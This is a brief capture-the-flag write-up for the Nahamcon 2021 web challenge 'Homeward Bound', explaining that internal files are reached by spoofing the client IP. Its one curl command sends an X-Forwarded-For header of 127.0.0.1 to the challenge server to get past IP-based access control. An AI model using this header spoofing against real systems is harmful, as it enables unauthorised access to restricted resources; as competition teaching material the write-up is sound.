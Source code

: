 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2021 | Homeward Bound Writeup
desc: Check out our writeup for Homeward Bound for Nahamcon 2021 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Nahamcon 2021
parent: nahamcon_2021
category: web
challenge: Homeward Bound
tags: "web"
date: 2021-03-15T00:00:00+00:00
last_modified_at: 2021-03-15T00:00:00+00:00
---
```




In this challenge we were supposed to access internal files by spoofing client IP address, this can be done using `X-Forwarded-For` header

```
$ curl -H “X-Forwarded-For: 127.0.0.1” http://challenge.nahamcon.com:31428/
```
